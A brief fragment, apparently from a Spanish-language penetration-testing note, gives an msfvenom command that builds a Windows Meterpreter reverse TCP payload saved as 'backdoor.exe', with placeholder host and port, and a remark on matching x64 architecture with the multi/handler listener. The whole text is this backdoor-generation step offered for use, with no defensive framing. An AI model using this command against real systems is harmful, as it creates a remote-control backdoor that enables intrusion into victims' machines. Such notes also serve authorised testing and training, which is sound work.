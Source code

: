 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe >backdoor.exe

NOTA: tener en cuenta la arquitectura si no especificamos x64 será por defecto x32 y si nos ponemos en escucha el multi/handler payload debe de ser x64 también.